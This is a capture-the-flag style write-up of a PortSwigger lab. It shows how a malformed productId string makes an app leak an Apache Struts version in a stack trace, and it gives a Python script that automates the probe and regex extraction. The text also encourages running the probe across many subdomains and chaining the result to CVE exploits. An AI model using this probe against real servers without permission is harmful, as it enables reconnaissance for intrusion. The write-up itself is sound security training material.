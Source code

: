 # 🧠 When Servers Overshare: Sniping Apache Struts with a Simple String Injection

**Author: Aditya Bhatt** <br/>
**Category: Web App Hacking | Recon | Info Disclosure | CVE Enumeration**

---

## 📜 Prelude to a Leak

Some bugs scream. Others whisper.

This one? It *accidentally drops its whole backend résumé* just because I threw a string into a parameter that expected a good ol’ integer. 💥

Today, I’ll walk you through **how I turned a bad typecast into a full-on reconnaissance goldmine**, discovered Apache Struts 2.3.31, and solved the PortSwigger lab with the swagger of a bounty hunter in a trench coat.

But wait… we’re not stopping at the PoC.
You’ll also get a **Python script to automate the whole shebang.** Let’s twist it up, automate the intel grab, and make devs cry (ethically, of course 🫡).

![Cover](https://github.com/user-attachments/assets/ced86192-c81b-4b11-95df-0eec8de711e9) <br/>

---

## 🕹️ TL;DR of the Attack

We take a `productId` endpoint, feed it malformed input (a string instead of an int), and the app coughs up a verbose error message containing its internal framework version.

We collect that info and submit it to solve the lab.
Simple, elegant, and deliciously leaky.

---

## ⚔️ Step-by-Step PoC (with 🗿 energy)

1. Go to Lab: [Burp Lab - Info Leak via Error Messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages). Open any product and capture the request.

![1](https://github.com/user-attachments/assets/63564d4b-edb7-4862-89de-f5356a5876ac) <br/>

2. Send `GET /product?productId=5` to Repeater.

![2](https://github.com/user-attachments/assets/5dbf3139-3a08-44fa-909c-f07312f370c7) <br/>

3. Observe the normal response. Yawn. 😴

![3](https://github.com/user-attachments/assets/bb5c7ef6-72b0-42bc-b9eb-ecfac8e571b0) <br/>

4. Now swap `5` with `"example"` → `productId="example"` and boom — 💥 full Java stack trace drops in your lap.

![4](https://github.com/user-attachments/assets/e353c281-1be2-48d2-bb79-595dfd29a3ee) <br/>

In the stack trace, we spot the vulnerable tech:
   **`Apache Struts 2 2.3.31`**
   
5. Submit this version in the lab.

![5](https://github.com/user-attachments/assets/9de6d6c2-7a87-4b52-ae15-fbd9d0b07532) <br/>

6. You just solved it. Now imagine doing this across 200 subdomains. That’s bug bounty artillery right there. 🚀

![6](https://github.com/user-attachments/assets/f555d51c-72da-4194-b8e0-59de7f407c7c) <br/>

---

## 🤖 Automation Script: Lab Destroyer 9000™

Here’s your script to *automate the whole lab*. Just plug in the **lab URL**, and it’ll throw a string payload, catch the error, extract the version, and print it like a true recon master.

> **⚠️ NOTE**: Make sure you’re logged into your PortSwigger Academy session in the same browser session (or use the session cookie in this script).

```python
import requests
import re

# 🔧 CONFIG
LAB_URL = "https://YOUR-LAB-ID.web-security-academy.net/product?productId="
PAYLOAD = '"injection"'

# 🧠 HEADERS (Optionally add your session cookie if needed)
headers = {
    "User-Agent": "Mozilla/5.0",
    # "Cookie": "session=YOUR_SESSION_HERE"
}

# 🚀 MAKE THE REQUEST
def extract_version():
    try:
        print(f"[+] Sending request to: {LAB_URL}{PAYLOAD}")
        response = requests.get(LAB_URL + PAYLOAD, headers=headers, timeout=10)

        if response.status_code == 200:
            # 🧙 Regex magic to find Apache Struts version
            match = re.search(r'Apache Struts 2(?:\.| )([0-9]+\.[0-9]+\.[0-9]+)', response.text)
            if match:
                version = "2." + match.group(1)
                print(f"[🎯] Apache Struts version disclosed: {version}")
                return version
            else:
                print("[-] No version info found. Maybe lab is patched or wrong URL.")
        else:
            print(f"[-] Unexpected response code: {response.status_code}")

    except Exception as e:
        print(f"[!] Exception occurred: {e}")

# 🔍 Run the extractor
if __name__ == "__main__":
    extract_version()
```

---

## 💭 Real World Implications

* That one version string? It’s a **fingerprint**.
* Apache Struts is notorious for **RCEs like CVE-2017-5638** — the Equifax breach? Yeah, it started with something like this.
* Once you know the version, you can map it against CVEs and craft custom exploits or pivot further.

---

## 🔐 Defensive Juju

* Never expose internal stack traces to the user.
* Catch your exceptions, log them server-side, and serve generic 500 pages to users.
* Use a WAF or RASP to detect parameter fuzzing.

---

## 🧠 Final Thoughts

Information disclosure is a **gateway bug**.
It rarely gives you root access upfront, but it **opens the door** to version detection, CVE chaining, and attack surface expansion. Every recon artist’s dream.

When in doubt, just toss in the wrong input and let the server do the talking.

---
